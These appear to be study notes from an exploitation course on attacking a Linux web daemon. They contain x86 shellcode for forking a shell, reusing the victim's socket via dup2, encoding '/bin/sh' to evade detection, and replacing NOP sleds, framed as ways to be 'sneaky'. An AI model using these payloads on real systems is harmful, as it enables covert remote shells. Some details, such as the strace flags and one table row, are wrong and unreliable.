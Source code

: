 ## x600
### Key concepts/definitions to know.
- **Daemon** - a daemon is a process that runs in the background, detached from the controlling terminal. 
- **Signals** - Signals are how processed communicate to one another in linux, when a program recieved a signal its execution flow is halted to call a signal handler.
  - The ```kill``` command can be used to send signals to a running process.
  - A program's behavior when a signal is recieved can be changed with the ```signal``` function ex: ```signal(SIGTERM, made_up_function)```
  - ```strace``` can be used to inspect the systemcalls of an executable. 
    - more importantly, it can be attached to a running process with ```j``` and you can filter calls with ```f```
  - When trying to find byte values for function/system call arguments it may be easier to simply put them in a C file and dissaseemble them and check out the values passed there. 

### Repairing Broken Execution Flow 
If you exploit a system daemon more times than not, you will disturb execution flow. If this happens, there are a couple things you need to do to ensure that execution flow is restored to normal.
  1. **Restore the base pointer**- Because you want the stack to return to the state it was when you decided to break it you need to ensure that you restore its state. To do so, you need to check out he function prologue of the function you overtook and get the offset of ```ESP``` from ```EBP``` and recreate this activity. Your code will look something like.
      ```
      lea ebp, [esp+0x69]   ; 0x69 is the original offset of ebp in the calling function(main)
      ```
      *Note- set breakpoints before and after your shellcode to observe these changes*
      *Note2- The code wil do the math to fix ESP itself, ebp is your problem*
  2. **Restore the return address** - After you fix the stack you broke, you have to point the program in the right direction before it can resume.  
      ```
      push 0xdeadbeef        ; 0xdeadbeef is the address of the next call after the function
      ret                    ; Tells the program to return to the address off the stack. 
      ```
### Using a child process
Because you want to be sneaky and ensure that the program you hacked doesnt break, you want to move your shellcode into a new process, this is done simply with the concept of forking.
<details> <summary>fork(2) man page</summary>

  ```
  FORK(2)                 Linux Programmer's Manual                FORK(2)

  NAME         

        fork - create a child process

  SYNOPSIS         

        #include <unistd.h>

        pid_t fork(void);

  DESCRIPTION         

        fork() creates a new process by duplicating the calling process.
        The new process is referred to as the child process.  The calling
        process is referred to as the parent process.

        The child process and the parent process run in separate memory
        spaces.  At the time of fork() both memory spaces have the same
        content.  Memory writes, file mappings (mmap(2)), and unmappings
        (munmap(2)) performed by one of the processes do not affect the
        other.

        The child process is an exact duplicate of the parent process
        except for the following points:

        *  The child has its own unique process ID, and this PID does not
            match the ID of any existing process group (setpgid(2)) or
            session.

        *  The child's parent process ID is the same as the parent's
            process ID.
  ```
</details>

It is important to remember that the fork process returns 0 for the child process and the new PID to the parent process. So we need to send the execution of out shellcode into the new process and use the concept above to send the parent back to normal. The code will look something like. 
```
BITS 32

   push BYTE 0x02    ; Fork is syscall #2
   pop eax
   int 0x80          ; After the fork, in child process eax == 0.
   test eax, eax
   jz child_process  ; In child process spawns a shell.

; In the parent process, restore tinywebd.
   lea ebp, [esp+0x68]  ; Restore EBP.
   push 0x08048fb7      ; Return address.
   ret                  ; Return

child_process:
; s = socket(2, 1, 0)
  push BYTE 0x66    ; Socketcall is syscall #102 (0x66)
  pop eax
  cdq               ; Zero out edx for use as a null DWORD later.
  xor ebx, ebx      ; ebx is the type of socketcall.
  inc ebx           ; 1 = SYS_SOCKET = socket()
  push edx          ; Build arg array: { protocol = 0,
  push BYTE 0x1     ;   (in reverse)     SOCK_STREAM = 1,
  push BYTE 0x2     ;                    AF_INET = 2 }
  mov ecx, esp      ; ecx = ptr to argument array
  int 0x80          ; After syscall, eax has socket file descriptor.
```
*Note: Since fork returns a 0 in eax, upon success you can use the ```jz``` instruction to jump the new code into a child process*

### Socket Reuse
In the event you want to be even more sneaky and ride your "legitimate" connection for your resulting shellcode to do so, you simply grab the connection's file descriptor for your shell code and plug it into your ```dup2``` call. Because memory is dynamic it would be better to use a relative address for the file descriptor such as its relation to the stack. After sucess, your shellcode should look like this. 
```
child_process:
      ; Re-use existing socket.
   lea edx, [esp+0x5c]  ; Put the address of new_sockfd in edx.
   mov ebx, [edx]       ; Put the value of new_sockfd in ebx.
   push BYTE 0x02
   pop ecx          ; ecx starts at 2.
   xor eax, eax
   xor edx, edx
dup_loop:
   mov BYTE al, 0x3F ; dup2  syscall #63
   int 0x80          ; dup2(c, 0)
   dec ecx           ; Count down to 0.
   jns dup_loop      ; If the sign flag is not set, ecx is not negative.
```
This method only works if your exploit buffer includes a directive to redirect standard in/out to the target such as using ```cat -``` and piping it to netcat. In this situation, there is no need for a seperate listener since you ride the same connection. 

### String encoding
While this sounds fancy and all, this can be as simple as a ceaser cypher style substitution such as adding 6 bytes to all the values and then removing them afterwards. To do so your code can look a little like this. 

<details>

  ```
    child_process:
        ; Re-use existing socket.
      lea edx, [esp+0x5c]  ; Put the address of new_sockfd in edx.
      mov ebx, [edx]       ; Put the value of new_sockfd in ebx.
      push BYTE 0x02
      pop ecx          ; ecx starts at 2.
      xor eax, eax
    dup_loop:
      mov BYTE al, 0x3F ; dup2  syscall #63
      int 0x80          ; dup2(c, 0)
      dec ecx           ; Count down to 0.
      jns dup_loop      ; If the sign flag is not set, ecx is not negative

    ; execve(const char *filename, char *const argv [], char *const envp[])
      mov BYTE al, 11   ; execve  syscall #11
      push 0x056d7834   ; push "/sh\x00" encoded +5 to the stack.
      push 0x736e6734   ; push "/bin" encoded +5 to the stack.
      mov ebx, esp      ; Put the address of encoded "/bin/sh" into ebx.

    int3 ; Breakpoint before decoding (REMOVE WHEN NOT DEBUGGING)

      push BYTE 0x8     ; Need to decode 8 bytes
      pop edx
    decode_loop:
      sub BYTE [ebx+edx], 0x5
      dec edx
      jns decode_loop

    int3  ; Breakpoint after decoding (REMOVE WHEN NOT DEBUGGING)

      xor edx, edx
      push edx          ; push 32-bit null terminator to stack.
      mov edx, esp      ; This is an empty array for envp.
      push ebx          ; push string addr to stack above null terminator.
      mov ecx, esp      ; This is the argv array with string ptr.
      int 0x80          ; execve("/bin//sh", ["/bin//sh", NULL], [NULL])
  ```
</details>

Another thing we can do to hide is to get rid of our NOP sled and replace it with other special characters that can do and undo actions like. 

<details>
  <table>
    <thead>
      <tr>
        <th>Instruction</th>
        <th>Hex</th>
        <th>ASCII</th>
      </tr>
    </thead>
    <tbody>
      <tr>
        <td>inc eax</td>
        <td>0x40</td>
        <td>@</td>
      </tr>
      <tr>
        <td>inc ebx</td>
        <td>0x43</td>
        <td>C</td>
      </tr>
      <tr>
        <td>inc ecx</td>
        <td>0x41</td>
        <td>A</td>
      </tr>
      <tr>
        <td>inc ecx</td>
        <td>0x42</td>
        <td>B</td>
      </tr>
      <tr>
        <td>dec eax</td>
        <td>0x48</td>
        <td>H</td>
      </tr>
      <tr>
        <td>dec ebx</td>
        <td>0x4B</td>
        <td>K</td>
      </tr>
      <tr>
        <td>dec ecx</td>
        <td>0x49</td>
        <td>I</td>
      </tr>
      <tr>
        <td>dec edx</td>
        <td>0x4A</td>
        <td>J</td>
      </tr>
    </tbody>
  </table>
</details>

